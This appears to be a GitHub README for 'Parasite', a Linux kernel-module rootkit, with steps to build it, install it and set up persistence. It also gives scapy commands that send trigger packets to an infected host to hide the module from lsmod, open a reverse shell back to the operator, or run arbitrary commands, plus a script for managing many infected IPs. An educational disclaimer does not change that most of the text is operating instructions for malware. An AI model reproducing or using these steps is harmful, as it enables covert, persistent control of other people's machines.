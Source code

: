 # Parasite
This is a rootkit written in the form of a Linux kernel module (LKM), which currently contains module hiding, RCE, reverse shell, and persistence functionalities

## Installation
NOTE - Read the disclaimer if you haven't already. Additionally, it is *highly recommended* that you use this in a VM!

Works with kernel versions 5.0 and greater, tested and built natively on 5.4.0 (Ubuntu/Debian)

The following steps assume that you have already assumed root

1. Update your system via your respective package-manager, and ensure linux-headers is installed
```sh
apt update && apt install linux-headers-$(uname -r) -y
```

2. Clone repo (or download manually)
```
git clone https://github.com/MurryPuppins/Parasite.git
```

3. Enter directory and build the kernel module (requires make and kernel build module)
```
cd Parasite

make
```

4. OPTIONAL: Establish persistence with the rootkit
```sh
chmod +x persist.sh

./persist.sh
```

5. Install the module
```sh
insmod Parasite.ko
```

## Usage
Once the LKM is installed, you can verify its presence via lsmod
```sh
lsmod | grep Parasite
```

### RCE/Rootkit Usage

By default, Parasite listens for TCP packets on port 6969. The rootkit has 4 options that can be used: hide, show, reverse shell, and command execution. It doesn't matter how you send the packet, but personally I used scapy (see *operator.py* for automated functionality).

Note: You *must* replace **INSERT_IP** with the rootkit-infected machine's IP



- PARASITE_HIDE - Hides the module from lsmod, thus inherently prevents it from being removed via rmmod as well
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_HIDE'))
```

- PARASITE_SHOW - Puts LKM back into list, thus allowing for removal via rmmod
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_SHOW'))
```

- PARASITE_RSHELL127.0.0.1 - This spawns a reverse shell using your IP (change 127.0.0.1 to your IP). You will need to be listening for port 5555 (default) on your machine to catch the shell
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_RSHELL127.0.0.1))
```

- PARASITE_CMD - Executes the command following directly after the **_CMD** (e.g., PARASITE_CMDiptables -P INPUT DROP). Results/output of cmd execution are not returned. 
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_CMD<put_cmd_here_without_brackets>))
```

### operator.py script

The *operator.py* script is intuitively simple as it automates all of the scapy commands (scapy must be pip-installed). Simply modify the *scope.txt* file to include the list of IP's you've infected, and then run the python file via the following:
```
python3 operator.py scope.txt
```

Some things to take note of:
- Run *help* within the script to get a list of available commands
- The reload/ls command has some flaws due to the designed nature of it; the rootkit can still be present on the box and return a red state. 
- To spawn a reverse shell, you must have a second terminal open and listening to the port (default: 5555)
- Lastly, since the rootkit is extremely quiet, you may have to spam the packet functionality a little, as packets can be dropped, intercepted, etc. 

## Uninstallation
To disable Parasite from running on the host, you can remove it *assuming it isn't hidden*
```sh
rmmod LKM
```

If you ran the persistence script, you will need to undo the script. Additionally, using your preferred text editor, open up `etc/modules` and comment/remove the line containing `Parasite`
```sh
rm /lib/modules/$(uname -r)/kernel/lib/Parasite.ko

depmod -a
```


## Disclaimer
The author is in no way responsible for any illegal use of this software. It is provided purely as an educational proof of concept. I am also not responsible for any damages or mishaps that may happen in the course of using this software. Use at your own risk!

## References
https://infosecwriteups.com/linux-kernel-communication-part-1-netfilter-hooks-15c07a5a5c4e <br />
https://github.com/d3adzo/poetry <br />
http://vger.kernel.org/~davem/skb_data.html <br />
https://github.com/h3xduck/Umbra/blob/master/kernel/src/netfilter_manager.c
